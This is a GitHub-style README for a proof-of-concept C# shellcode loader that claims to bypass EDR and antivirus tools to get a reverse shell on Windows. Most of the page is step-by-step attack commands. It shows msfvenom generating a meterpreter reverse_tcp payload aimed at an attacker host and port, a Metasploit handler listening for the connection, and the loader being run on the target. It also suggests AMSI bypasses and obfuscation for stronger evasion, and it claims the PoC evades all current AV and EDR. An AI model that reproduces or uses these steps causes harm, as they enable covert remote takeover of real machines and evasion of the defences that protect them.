

# EDR-Antivirus-Bypass-to-Gain-Shell-Access


This repository contains a **proof-of-concept (PoC)** for bypassing EDR and antivirus solutions using a memory injection technique. The code executes shellcode that spawns a reverse shell, successfully evading detection by various security mechanisms.

---

## Description

This project demonstrates how to bypass EDR and antivirus protection using Windows API functions such as `VirtualAlloc`, `CreateThread`, and `WaitForSingleObject`. The payload is injected directly into the process memory without being detected by security tools, establishing a connection to a remote system for a reverse shell.

> **Disclaimer:** This code is for educational purposes only. Use it responsibly and only in environments where you have explicit permission to test.

---

## Features

- Bypasses standard EDR and antivirus solutions
- Executes shellcode in memory to create a reverse shell
- Utilizes `VirtualAlloc` and `CreateThread` to inject the payload directly into process memory

---

## Requirements

- Windows Operating System (Tested on Windows 11 Pro)
- Kali Linux (For reverse shell listener)
- Visual Studio or any C# compiler

---

## Steps to Compile & Run

### 1. Clone the Repository

```bash
https://github.com/murat-exp/EDR-Antivirus-Bypass-to-Gain-Shell-Access.git
cd EDR-Antivirus-Bypass-Shell-Access
```


### 2. Modify Shellcode

Before compiling, ensure that you modify the shellcode to point to your own IP address and port for the reverse shell. You can generate shellcode using `msfvenom:`
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=<YOUR_PORT> -f csharp
```

Replace the `byte[] buf` section in Program.cs with the shellcode you just generated.


### 3. Compile the Code

Open the project in Visual Studio, or use the following command to compile the code using the .NET SDK:


```bash
csc loader.cs
```

**Alternatively, you can compile in Release mode for better optimization:


```bash
csc -optimize loader.cs
```


### 4. Start a Listener on Kali

On your Kali Linux machine, start a listener to catch the reverse shell. Use the following commands in Metasploit:


```bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <YOUR_IP>
set LPORT <YOUR_PORT>
run
```


### 5. Execute the Payload

Transfer the compiled .exe file to the Windows machine. You can execute the file manually or use any other method to run the file:


```bash
loader.exe
```


6. Obtain the Shell

Once the payload is executed on the target machine, you should see a reverse shell session open in your Metasploit console. From there, you can interact with the system:


```bash
meterpreter > sysinfo
meterpreter > shell
```


7. Additional Bypass Techniques

To avoid detection by advanced EDR solutions, consider using techniques like process injection, obfuscation, or AMSI bypasses. This PoC can be extended with these methods for more robust evasion.


This POC bypasses all current AV and EDR solutions.  

I will soon share with you the codes I have developed with more advanced methods.





